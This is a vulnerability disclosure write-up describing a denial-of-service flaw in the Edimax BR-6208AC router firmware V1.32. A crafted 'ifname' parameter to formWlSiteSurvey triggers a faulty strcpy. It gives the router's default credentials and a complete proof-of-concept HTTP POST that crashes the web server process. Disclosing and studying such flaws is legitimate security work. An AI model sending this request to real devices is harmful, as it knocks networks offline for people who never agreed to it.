





## **Description**

An improper memory operation vulnerability in the function `'formWlSiteSurvey'` of  the Edimax BR-6208AC firmware version ​**V1.32** allows remote attackers to cause a denial of service (DoS) via a crafted `'ifname'` parameter in an HTTP request. The vulnerability arises due to an incorrect `strcpy` operation that attempts to write data into a read-only memory location (`"wlan1"`), leading to a segmentation fault.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 


## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWlSiteSurvey' is below:

- ​**websGetVar** retrieves POST parameters.
- `strcpy` operation attempts to write data into a read-only memory location (`"wlan1"`), leading to a segmentation fault.


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWlSiteSurvey HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/wireless5g_basic.asp
Upgrade-Insecure-Requests: 1

done=1&ifname=1111
```

Before the request, we use command 'ps' to show the pid ID of process 'webs'(11114).

Then we send the request, we could find that the service is temporary not available. After waiting for a while, we find that the process restart.

